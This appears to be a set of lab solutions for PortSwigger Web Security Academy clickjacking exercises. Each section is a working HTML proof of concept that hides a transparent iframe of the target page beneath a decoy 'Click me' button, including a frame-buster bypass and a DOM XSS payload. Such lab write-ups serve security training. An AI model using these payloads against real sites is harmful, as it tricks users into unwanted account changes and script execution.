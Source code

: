 # Clickjacking (UI redressing)

## Basic clickjacking with CSRF token protection

```html
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 500px;
        opacity: 0.0000001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:310px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://acb51fbc1faf3227801a430500410078.web-security-academy.net/account"></iframe>
```

## Clickjacking with form input data prefilled from a URL parameter

```html
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:420px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://aca41f091f5bb2d980ee3bc400f600de.web-security-academy.net/email?email=foo@bar.com"></iframe>
```

## Clickjacking with a frame buster script

```html
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 500px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:400px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://ac541f331f3b3af8801a0f9a009f0035.web-security-academy.net/email?email=foo@bar.com"></iframe>
```

## Exploiting clickjacking vulnerability to trigger DOM-based XSS

```html
<style>
    iframe {
        position:relative;
        width: 1000px;
        height: 800px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:720px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://acfa1f681fa8caab8000ccba007700bf.web-security-academy.net/feedback?name=<img src=1 onerror=alert(1)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```
XSS exploit: `?name=<img src=1 onerror=alert(1)>`


## Multistep clickjacking

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.00001;
        z-index: 2;
    }

    div {
        position: absolute;
        top: 285px;
        left: 50px;
        z-index: 1;
    }

    .second {
        position: absolute;
        top: 285px;
        left: 250px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<div class="second">Click me</div>
<iframe src="https://ac451fab1e2281e08016312a0030004b.web-security-academy.net/account"></iframe>
```